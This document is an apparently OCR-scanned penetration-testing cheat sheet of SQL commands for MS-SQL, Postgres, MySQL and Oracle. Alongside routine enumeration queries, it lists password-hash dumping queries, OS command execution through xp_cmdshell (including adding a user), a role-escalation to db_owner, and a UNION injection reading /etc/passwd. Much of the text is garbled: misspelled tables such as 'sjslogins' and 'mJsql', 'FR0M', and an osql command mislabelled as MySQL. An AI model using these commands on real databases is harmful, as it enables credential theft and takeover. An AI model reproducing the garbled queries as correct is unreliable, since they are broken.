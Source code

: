 ```yaml
---
title: Databases
sidebar: mydoc_sidebar
permalink: databases.html
folder: mydoc
---
```


# Database

Ms-sql

<table>
   <thead>
     <tr>
       <th style="text-align:left"><b>Command</b>
       </th>
       <th style="text-align:left"><b>Description</b>
       </th>
     </tr>
   </thead>
   <tbody>
     <tr>
       <td style="text-align:left">SELECT @@version</td>
       <td style="text-align:left">Database version</td>
     </tr>
     <tr>
       <td style="text-align:left">EXEC xp_msver</td>
       <td style="text-align:left">version details</td>
     </tr>
     <tr>
       <td style="text-align:left">EXEC master..xp_cmdshell &apos;net user&apos;</td>
       <td style="text-align:left">Run operating system command</td>
     </tr>
     <tr>
       <td style="text-align:left">SELECT HOST_NAME()</td>
       <td style="text-align:left">Get Hostname and IP</td>
     </tr>
     <tr>
       <td style="text-align:left">SELECT DB_NAME()</td>
       <td style="text-align:left">Current database</td>
     </tr>
     <tr>
       <td style="text-align:left">SELECT name FROM master..sysdatabases;</td>
       <td style="text-align:left">List of databases</td>
     </tr>
     <tr>
       <td style="text-align:left">SELECT user name()</td>
       <td style="text-align:left">Current user</td>
     </tr>
     <tr>
       <td style="text-align:left">SELECT name FROM master .. sjslogins</td>
       <td style="text-align:left">List of users</td>
     </tr>
     <tr>
       <td style="text-align:left">
         <p>SELECT name FROM master..sysobjects WHERE</p>
         <p>xtype= &apos;U&apos;;</p>
       </td>
       <td style="text-align:left">list of tables</td>
     </tr>
     <tr>
       <td style="text-align:left">
         <p>
         <p>SELECT name FROM syscolumns WHERE id=(SELECT</p>
         <p>id FR0M sysobjects WHERE name- &apos;mjtable&apos; ) ;</p>
       </td>
       <td style="text-align:left">List of columns</td>
     </tr>
   </tbody>
</table>

### Information about all database tables in the system table

```text
SELECT TOP 1 TABLE_NAME FROM INFORMATION SCHEMA.TABLES
```

### List of tables and columns

```text
SELECT name FROM Syscolumns WHERE id
(SELECT id FROM Sysobjects WHERE
name='mytable')
```

### Password hash

```text
SELECT name, password hash FROM master.sys.sgl_logins
```

### Bypass user access level

```text
execute('execute(''alter role [db_owner] add member [client]'') at "compatibility\poo_public"')
```

## Postgres

| **Command** | **Explanation** |
| :--- | :--- |
| SELECT version\(\); | Database version
| SELECT inet server\_addr\(\) | Get Hostname and IP
| SELECT current database\(\); | Current database |
| SELECT datname FROM pg database; | List of databases
| SELECT user; | Current user
| SELECT username FROM pg\_user; | List of users
| SELECT username,passwd FROM pg shadow | List of password hashes

### column list

```text
SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A,
pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND
(A.attrelid=C.oid) AND (A.atttjpid=T.oid) AND (A.attnum 0) AND (NOT
A.attisdropped) AND (N.nspname ILIKE 'public')
```

### List of tables

```text
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN
pg catalog.pg namespace n ON n.oid = c.relnamespace WHERE c.relkind IN
( 'r',") AND n.nspname NOT IN ( 'pg catalog', 'pg toast') AND
pg_catalog.pg_table_is_visible(c.oid)
```

## Mysql

| **Command** | **Explanation** |
| :--- | :--- |
| SELECT @@version; | Database version
| SELECT @@hostname; | Get Hostname and IP
| SELECT database\(\); | Current database |
| SELECT distinct \(db\) FROM mysql.db; | List of databases
| SELECT user\(\); | Current user
| SELECT user FROM mysql.user; | List of users
| SELECT host,user,password FROM mJsql.user; | Password hash list

### List of all tables and columns

```text
SELECT table schema, table name, column_name FR0M
information scherna.columns WHERE
table schema != 'mysql' AND table schema != 'information schema'
```

### Execution of operating system command in mysql

```text
osql -S ip , port -U sa -P pwd -Q "exec xp cmdshell `net user /add user
passr
```

### Reading readable files in mysql

```text
UNION ALL SELECT LOAD FILE( '/etc/passwd');
```

### Writing to the file system in mysql

```text
SELECT * FROM mytable INTO dumpfile '/tmp/somefile';
```


## Oracle

<table>
   <thead>
     <tr>
       <th style="text-align:left"><b>Command</b>
       </th>
       <th style="text-align:left"><b>Description</b>
       </th>
     </tr>
   </thead>
   <tbody>
     <tr>
       <td style="text-align:left">SELECT * FROM v$version;</td>
       <td style="text-align:left">Database version</td>
     </tr>
     <tr>
       <td style="text-align:left">SELECT version FROM v$instance;</td>
       <td style="text-align:left">Database version</td>
     </tr>
     <tr>
       <td style="text-align:left">SELECT instance name FROM v$instance;</td>
       <td style="text-align:left">Current database</td>
     </tr>
     <tr>
       <td style="text-align:left">SELECT name FROM v$database;</td>
       <td style="text-align:left">Current database</td>
     </tr>
     <tr>
       <td style="text-align:left">SELECT DISTINCT owner FROM all_tables;</td>
       <td style="text-align:left">List of databases</td>
     </tr>
     <tr>
       <td style="text-align:left">SELECT user FROM dual;</td>
       <td style="text-align:left">Current user</td>
     </tr>
     <tr>
       <td style="text-align:left">
         <p>SELECT username FROM all_users ORDER BY</p>
         <p>username;</p>
       </td>
       <td style="text-align:left">List of users</td>
     </tr>
     <tr>
       <td style="text-align:left">SELECT column name FROM all_tab_columns;</td>
       <td style="text-align:left">List of columns</td>
     </tr>
     <tr>
       <td style="text-align:left">SELECT table name FROM all_tables;</td>
       <td style="text-align:left">list of tables</td>
     </tr>
     <tr>
       <td style="text-align:left">SELECT name, password, astatus FROM sys.user$;</td>
       <td style="text-align:left">List of password hashes</td>
     </tr>
   </tbody>
</table>

### List of databases

```text
SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = 'YES';
```


{% include links.html %}
